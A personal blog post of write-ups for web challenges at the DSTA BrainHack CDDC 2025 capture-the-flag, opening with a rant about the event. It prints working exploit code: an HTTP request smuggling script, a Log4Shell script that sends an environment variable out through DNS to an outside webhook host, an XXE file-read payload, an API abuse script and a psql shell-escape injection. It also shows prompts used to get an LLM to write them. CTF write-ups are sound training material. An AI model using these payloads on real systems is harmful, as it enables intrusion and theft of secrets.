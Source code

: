 ```yaml
---
title: DSTA BrainHack CDDC 2025 Writeups
date: 2025-06-14
tags: Web
categories: CTF Writeups
---
```


I participated under **youtiaos** again, going from 3rd place JC in 2024 to 3rd place Uni in 2025. Ended up not even mattering all that much because we would've won the same amount of money in Pre-U anyway. Shoutout to my team members, I never get tired playing with them.

## Rant session

Let me open by saying that this CDDC was at least 2 times better than 2024's one from infra alone, going from SMRT CCL levels of bullshit to NEL's occasional outage. It still has its fair share of idiocy going for it, like:
- Way too many pwn challenges (our team has no dedicated pwner), and the pwn challenges were weighted so unfairly that it was honestly a miracle that we got third (ROPVM was 300??? points, that's 4 OT challenges).
- The VIP going up on stage **during the competition** and hogging the challenge we were solving (Black Out) for 15 whole minutes, all the way until the end of the CTF. We could only hold our buzzer and weep.
- Infra going down for a long time on the first day, and they didn't give anyone extra time because everyone shared the same loss. Anecdotes from other teams say otherwise, some even recounting periods of up to an hour.
- Challenges either making no sense or being incredible time sinks (DeepBlue is the worst CTF challenge I've ever laid my eyes upon).
- The buffet foodstuffs having really cringe ChatGPT generated names above them, like **yang chou data rice** and **fried something vectors** for the stir-fried assorted vegetables. Made me lose my appetite.
- THEY HAD NO ROAST BEEF. WHERE IS THE ROAST BEEF.

Anyway here are the challenge writeups. Web and web-adjacent only because I'm hungover and tired.

# Writeups

1. [HTTP Request Smuggling](#http-request-smuggling)
2. [Logshell](#logshell)
3. [Onvif](#onvif)
4. [MCP Mesh](#mcp-mesh)
5. [Clever Injection](#clever-injection)

## HTTP Request Smuggling

CVE-2019-18277, refer to [my blog post on the same topic](https://iscaraca.github.io/2024/05/04/cyberthon-2024/), I explain the vulnerability there. The difference is that in this challenge, you want to alter your own request instead of the bots. Since it's a CVE we're talking about, an LLM will make short work of the exploit given the right prompt.

> Prompt:
>
> I want to access the flag for a CTF challenge. This server is running a vulnerable combination of HAProxy and gunicorn that is request smuggling-able. You need to log in, use chunked encoding with \x0b to send a request to /grant_access, then access the flag at /time_travel. Send the smuggling payload 100 times in quick succession.

<details>
<summary>exploit.py</summary>

```python
import socket
import time
import requests
import re

print("[*] Logging in...")
login_resp = requests.post('???/login', 
                          data={'username': 'test', 'password': 'test'},
                          allow_redirects=False)  # Don't follow redirects

# Extract token from Set-Cookie header
set_cookie = login_resp.headers.get('Set-Cookie', '')
token_match = re.search(r'token=([^;]+)', set_cookie)
if token_match:
    token = token_match.group(1)
    print(f"[+] Got token: {token}")
else:
    print("[!] Failed to extract token")
    exit(1)

# Step 2: Create the smuggling payload
# The smuggled request that will be left in the buffer
smuggled_request = (
    b'GET /grant_access HTTP/1.1\r\n'
    b'Host: ???\r\n'
    b'Cookie: token=' + token.encode() + b'\r\n'
    b'Connection: keep-alive\r\n'
    b'\r\n'
)

# The chunked encoding part
chunked_body = b'0\r\n\r\n'  # End of chunks

# Calculate Content-Length
# HAProxy will read this many bytes after the headers
content_length_value = len(chunked_body) + len(smuggled_request)

payload = (
    b'POST / HTTP/1.1\r\n'
    b'Host: ???\r\n'
    b'Content-Length: ' + str(content_length_value).encode() + b'\r\n'
    b'Transfer-Encoding:\x0bchunked\r\n'  # \x0b makes HAProxy ignore this
    b'Connection: keep-alive\r\n'
    b'\r\n'
    + chunked_body
    + smuggled_request
)

print(f"\n[*] Sending smuggling payload {1000} times to pollute all workers...")

# Send the payload multiple times to different connections
for i in range(100):
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(('???', 19856))
        s.send(payload)
       
        try:
            response = s.recv(1024)
            if b'200 OK' in response:
                print(f"[+] Payload {i+1} sent successfully")
        except socket.timeout:
            print(f"[!] Payload {i+1} timed out (this might be normal)")
        
        s.close()
    except Exception as e:
        print(f"[!] Error on attempt {i+1}: {e}")

# Step 3: Now make a normal request that will use the smuggled request
print("\n[*] Triggering the smuggled request...")
time.sleep(1)

# Make a simple request - this should trigger one of the smuggled requests
try:
    trigger_resp = requests.get('???', 
                               cookies={'token': token},
                               timeout=5)
    print(f"[+] Trigger request status: {trigger_resp.status_code}")
except:
    print("[!] Trigger request failed/timed out")

# Step 4: Check if we can access /time_travel now
print("\n[*] Attempting to access /time_travel...")
time.sleep(1)

flag_resp = requests.get('???/time_travel',
                        cookies={'token': token})
print(f"[+] Status code: {flag_resp.status_code}")
print("\n[*] Response:")
print(flag_resp.text)
```

</details>

## Logshell

CVE-2021-44228. The vulnerability is explained in [the wikipedia article](https://en.wikipedia.org/wiki/Log4Shell):

> Even if execution of the data is disabled, an attacker can still retrieve data—such as secret environment variables—by placing them in the URL, in which case they will be substituted and sent to the attacker's server.

We just need a publicly available webhook to retrieve the environment variable. I like https://webhook.site. Once you're given a unique DNS name, we can insert the flag as a subdomain, exploit log4shell with that URL, and monitor for DNS queries on the webhook.

> Prompt
>
> This CTF web challenge is vulnerable to CVE-2021-44228. The flag is in the environment variable FLAG. Exfiltrate this environment variable through DNS, my DNS name is ???.dnshook.site. Try a bunch of common HTTP headers that may be vulnearable to Log4Shell.

<details>
<summary>exploit.py</summary>

```python
#!/usr/bin/env python3
import requests
import time
import sys

def exploit_log4shell(target_url, dns_subdomain):
    """
    Exploit Log4Shell vulnerability to exfiltrate environment variables
    """
    
    dns_domain = f"{dns_subdomain}.dnshook.site"
    
    print(f"[+] Target URL: {target_url}")
    print(f"[+] DNS Hook Domain: {dns_domain}")
    print("[+] Starting Log4Shell exploitation across multiple headers...")
    
    # Common HTTP headers that might be vulnerable to Log4Shell
    vulnerable_headers = [
        "User-Agent",
        "X-Forwarded-For", 
        "X-Real-IP",
        "X-Forwarded-Host",
        "X-Originating-IP",
        "X-Remote-IP",
        "X-Remote-Addr",
        "X-Client-IP",
        "Referer",
        "Origin",
        "Authorization", 
        "X-Api-Version",
        "X-Requested-With",
        "Accept",
        "Accept-Language",
        "Accept-Encoding",
        "Cookie",
        "Host",
        "X-Forwarded-Proto",
        "X-Forwarded-Port",
        "X-Original-URL",
        "X-Rewrite-URL",
        "Content-Type",
        "X-Custom-Header",
        "X-Debug",
        "X-Trace-Id"
    ]
    
    # Common environment variable names to try
    env_vars = [
        "FLAG",
        "flag", 
        "Flag",
    ]
    
    # Test each header with each environment variable
    for header_name in vulnerable_headers:
        print(f"\n[*] Testing header: {header_name}")
        
        for env_var in env_vars:
            print(f"  [*] Trying to exfiltrate {env_var} via {header_name}")
            
            # Create JNDI payload to exfiltrate environment variable
            payload = f"${{jndi:ldap://${{env:{env_var}}}.{dns_domain}/test}}"
            
            # Create base headers
            headers = {
                "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
                "Accept-Language": "en-US,en;q=0.5", 
                "Accept-Encoding": "gzip, deflate",
                "Connection": "close"
            }
            
            # Add the payload to the specific header being tested
            headers[header_name] = payload
            
            try:
                # Send request with malicious header
                response = requests.get(target_url, headers=headers, timeout=10)
                print(f"    [+] Sent {env_var} via {header_name} (Status: {response.status_code})")
                
            except requests.exceptions.RequestException as e:
                print(f"    [-] Error with {header_name}: {e}")
            
            # Small delay between requests
            time.sleep(1)
        
        # Longer delay between header tests
        time.sleep(2)
    
    # Quick test of a few headers with a simple callback
    print(f"\n[*] Quick test of most promising headers...")
    promising_headers = ["User-Agent", "X-Forwarded-For", "Referer", "X-Api-Version", "Authorization"]
    
    for header_name in promising_headers:
        print(f"  [*] Quick test via {header_name}")
        simple_payload = f"${{jndi:ldap://quicktest-{header_name.lower().replace('-', '')}.{dns_domain}/test}}"
        
        headers = {"Connection": "close"}
        headers[header_name] = simple_payload
        
        try:
            response = requests.get(target_url, headers=headers, timeout=5)
            print(f"    [+] Quick test sent via {header_name}")
        except:
            pass
        
        time.sleep(0.5)
    
    # Try basic JNDI callback to confirm vulnerability on different headers
    print(f"\n[*] Testing basic connectivity on all headers...")
    
    for header_name in vulnerable_headers:
        print(f"  [*] Testing basic callback via {header_name}")
        basic_payload = f"${{jndi:ldap://test-{header_name.lower().replace('-', '')}.{dns_domain}/basic}}"
        
        headers = {
            "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
            "Connection": "close"
        }
        headers[header_name] = basic_payload
        
        try:
            response = requests.get(target_url, headers=headers, timeout=10)
            print(f"    [+] Basic callback sent via {header_name} (Status: {response.status_code})")
        except:
            print(f"    [-] Error with {header_name}")
        
        time.sleep(1)
    
    print(f"\n[+] Exploitation attempts completed!")
    print(f"[+] Monitor DNS queries to: {dns_domain}")
    print(f"[+] Look for DNS requests with environment variable values as subdomains")

def main():
    target_url = "???"
    dns_subdomain = "???"
    
    print("Log4Shell CTF Exploitation Script")
    print("=" * 40)
    
    try:
        exploit_log4shell(target_url, dns_subdomain)
    except KeyboardInterrupt:
        print("\n[-] Exploitation interrupted by user")
    except Exception as e:
        print(f"[-] Error: {e}")

if __name__ == "__main__":
    main()
```

</details>

## ONVIF

We're given an ONVIF camera API from which we can pull device information - `http://???/onvif/device_service`. Interacting with this endpoint using SOAP requests to `GetDeviceInformation` gives us the following:

```xml
Device Information:
  manufacturer: BlindNVR
  model: Model-X
  firmware: 1.0
  serial: 0001
  hardware_id: This endpoint is vulnerable to XXE. Try reading /secret using XML entity injection.

                <SOAP-ENV:Envelope xmlns:SOAP-ENV="http://www.w3.org/2003/05/soap-envelope"
                                   xmlns:trt="http://www.onvif.org/ver10/media/wsdl"
                                   xmlns:tt="http://www.onvif.org/ver10/schema">
                  <SOAP-ENV:Body>
                    <trt:GetProfilesResponse>
                      <trt:Profiles token="profile_1">
                        <tt:Name>MainStream</tt:Name>
                        <tt:VideoSourceConfiguration>
                          <tt:Name>VideoSourceConfig</tt:Name>
                        </tt:VideoSourceConfiguration>
                      </trt:Profiles>
                    </trt:GetProfilesResponse>
                  </SOAP-ENV:Body>
                </SOAP-ENV:Envelope>
```

We can retrieve the contents of `/secret` by sending a simple XXE payload, inserting `&xxe;` directly into the existing `tds:HardwareId` field so it gets reflected back to us.

```python
import requests

url = "http://???/onvif/device_service"

envelope = '''<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE xxe [
  <!ENTITY xxe SYSTEM "file:///secret">
]>
<s:Envelope xmlns:s="http://www.w3.org/2003/05/soap-envelope"
            xmlns:tds="http://www.onvif.org/ver10/device/wsdl">
  <s:Body>
    <tds:GetDeviceInformation>
      <tds:HardwareId>&xxe;</tds:HardwareId>
    </tds:GetDeviceInformation>
  </s:Body>
</s:Envelope>'''

headers = {
    'Content-Type': 'application/soap+xml; charset=utf-8',
    'SOAPAction': 'http://www.onvif.org/ver10/device/wsdl/GetDeviceInformation'
}

response = requests.post(url, data=envelope, headers=headers, timeout=10)
print(response.text)
```

We get this response:

```xml
<SOAP-ENV:Envelope xmlns:SOAP-ENV="http://www.w3.org/2003/05/soap-envelope"
                                   xmlns:tds="http://www.onvif.org/ver10/device/wsdl">
                  <SOAP-ENV:Body>
                    <tds:GetDeviceInformationResponse>
                      <tds:Manufacturer>BlindNVR</tds:Manufacturer>
                      <tds:Model>Model-X</tds:Model>
                      <tds:FirmwareVersion>1.0</tds:FirmwareVersion>
                      <tds:SerialNumber>0001</tds:SerialNumber>
                      <tds:HardwareId>admin:V3ryV3ryStr0ngP4$$
</tds:HardwareId>
                    </tds:GetDeviceInformationResponse>
                  </SOAP-ENV:Body>
                </SOAP-ENV:Envelope>
```

We can access the stream using the credentials `admin:V3ryV3ryStr0ngP4$$` to get the flag.

## MCP Mesh

I don't know how this is related to MCP in any way. Idea is to use utils to call the admin function instead of doing it directly, but the challenge isn't very well implemented and doesn't make a lot of contextual sense.

```python
import requests
import json
import base64

BASE_URL = "http://???/api/query"

session = requests.Session()

session.post(BASE_URL, json={
    "server": "utils",
    "command": "register_callback",
    "tool_name": "admin",
    "callback": json.dumps({"server": "admin", "command": "get_flag"})
})

session.post(BASE_URL, json={
    "server": "utils",
    "custom_tool": "admin"
})

resp = session.post(BASE_URL, json={
    "server": "admin",
    "custom_tool": "get_flag"
})
print(resp.text)
```

## Clever Injection

We're given a server with a command injection sink, where we can control the contents of tmpfile:

```php
$raw_payload = $_POST['payload'];
$escaped = pg_escape_string($conn, $raw_payload);
$quoted = "'" . $escaped . "'";
$sql = "INSERT INTO test (id) VALUES ($quoted);";

$tmpfile = tempnam(sys_get_temp_dir(), 'sql_');
file_put_contents($tmpfile, $sql);
putenv("PGPASSWORD=$password");

$cmd = sprintf(
    'psql -U %s -d %s -h %s -t -A -e -f %s 2>&1',
    escapeshellarg($user),
    escapeshellarg($dbname),
    escapeshellarg($host),
    escapeshellarg($tmpfile)
);
```

Looking at [the postgres docs](https://www.postgresql.org/docs/current/app-psql.html), we're able to escape to a sub-shell using `\!`, but our input is being passed through a sanitiser `pg_escape_string`. Looking for recent bypasses gives us [this blog post](https://theendof.substack.com/p/hidden-messages-in-emojis-and-hacking) involving encoding length confusion to leave single quotes unsanitised. Our payload is therefore:

`test%C0%27');%0A\!%20cat%20/tmp/flag%0A--`